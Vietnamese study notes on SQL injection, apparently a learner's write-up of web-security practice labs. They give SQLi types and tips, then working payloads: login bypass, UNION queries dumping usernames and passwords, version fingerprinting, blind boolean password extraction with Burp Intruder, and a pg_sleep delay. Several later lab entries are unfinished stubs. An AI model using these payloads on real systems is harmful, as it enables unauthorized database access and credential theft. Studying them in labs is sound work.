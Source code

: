 # SQL Injection

### Kiến thức

Hệ thống quản lý cơ sở dữ liệu (DBMS) là hệ thống phần mềm được sử dụng để lưu trữ, truy xuất và chạy các truy vấn trên dữ liệu. DBMS đóng vai trò là giao diện giữa người dùng cuối và cơ sở dữ liệu, cho phép người dùng tạo, đọc, cập nhật và xóa dữ liệu trong cơ sở dữ liệu.

Các loại SQL: MySQL, PostgreSQL, BigQuerySQL, ...

Đầu tiên cần hiểu được SQLi: khái niệm, phân loại, khai thác, ngăn chặn.

SQLi là lỗ hổng bảo mật web cho phép kẻ tấn công có thể xem trái phép cơ sở dữ liệu của trang web. Có nhiều trường hợp tệ hơn, kẻ tấn công có thể xoá và sửa dữ liệu quan trọng làm thiệt hại lớn cho người dùng và nhà phát triển.

SQLi gồm các dạng:
- In-band SQLi
    - Error-based SQLi
    - Union-based SQLi
- Inferential SQLi (Blind SQLi)
- Blind-boolean-based SQLi
    - Time-based-blind SQLi
- Out-of-band SQLi



### Kinh nghiệm

Xác định trang web sử dụng dạng database

Nên thêm null khi SELECT và có dấu -- (comment) đường sau mỗi câu truy vấn

Luôn chuyển đổi 2 cách là -- và # (%23)

Dấu # được hiểu là đánh dấu hoặc chú thích

Sử dụng  OR, AND hoặc ;, ||

Blind SQL Injection xảy ra khi ta ghi sai hoặc có câu truy vấn nhưng trang web vẫn chấp nhận rằng nó đúng

Blind SQLi: như tên, không thể thấy, ta có thể khai thác, dự đoán bằng một cái khác để đưa ra kết quả chính xác

Đọc các cheat sheet



### Trải nghiệm

#### Lab: SQL injection vulnerability in WHERE clause allowing retrieval of hidden data
Input parameter category: 
'+OR+'1'='1

#### Lab: SQL injection vulnerability allowing login bypass
Login username: administrator' OR '1'='1

#### Lab: SQL injection attack, querying the database type and version on Oracle
Input parameter category: 
'+UNION+SELECT+banner,NULL+FROM+v$version--

#### Lab: SQL injection attack, querying the database type and version on MySQL and Microsoft
Input parameter category:
'+UNION+SELECT+@@version,NULL%23

#### Lab: SQL injection attack, listing the database contents on non-Oracle databases
Input parameter category:
'+UNION+SELECT+table_name,+NULL+FROM+information_schema.tables--
'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_?'--
'+UNION+SELECT+password_?,+username_?+FROM+users_?--

#### Lab: SQL injection attack, listing the database contents on Oracle
Input parameter category: 
'+UNION+SELECT+table_name,+NULL+FROM+all_tables--
'+UNION+SELECT+column_name,+NULL+FROM+all_tab_columns+WHERE+table_name+=+'USERS_?'--
'+UNION+SELECT+USERNAME_?,+PASSWORD_?+FROM+USERS_?--

#### Lab: SQL injection UNION attack, determining the number of columns returned by the query
Input parameter category: 
'+UNION+SELECT+NULL,NULL,NULL--

#### Lab: SQL injection UNION attack, finding a column containing text
Input parameter category: 
'+UNION+SELECT+NULL,'?',NULL--

#### Lab: SQL injection UNION attack, retrieving data from other tables
Input parameter category: 
'+UNION+SELECT+username,password+FROM+users--

#### Lab: SQL injection UNION attack, retrieving multiple values in a single column
Input parameter category: 
'+UNION+SELECT+NULL,username||'~'||password+FROM+users--

#### Lab: Blind SQL injection with conditional responses
Input cookie: 
Cookie: TrackingId' AND '1'='1
Notification "Welcome back!"
Cookie: TrackingId' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), 1, 1) = 'a
Use Burp Intruder brute force
Cookie: TrackingId' AND SUBSTRING((SELECT password FROM users WHERE username = 'administrator'), §1§, 1) = '§a§

#### Lab: Blind SQL injection with conditional errors
Input cookie: 
Cookie: TrackingId' 

#### Lab: Visible error-based SQL injection
Input cookie: 
Cookie: TrackingId' 

#### Lab: ## Blind SQL injection with time delays
Input cookie: 
Using query PostgreSQL
Cookie: TrackingId'||pg_sleep(10)--

#### Lab: Blind SQL injection with time delays and information retrieval
Input cookie: 
Cookie: TrackingId' 

#### Lab: Blind SQL injection with out-of-band interaction
Input cookie: 
Cookie: TrackingId' 
#### Lab: Blind SQL injection with out-of-band data exfiltration
Input cookie: 
Cookie: TrackingId' 

#### Lab: SQL injection with filter bypass via XML encoding
Input cookie: 
Cookie: TrackingId' 


### Tham khảo

https://tuananalytic.com/tu-hoc-sql-sao-lam-loai-sql-vay-phan-1/

https://tuananalytic.com/tu-hoc-sql-thuat-ngu-database-hay-gap-phan-2/

https://viblo.asia/p/sql-injection-la-gi-co-bao-nhieu-kieu-tan-cong-sql-injection-m68Z0QnMlkG


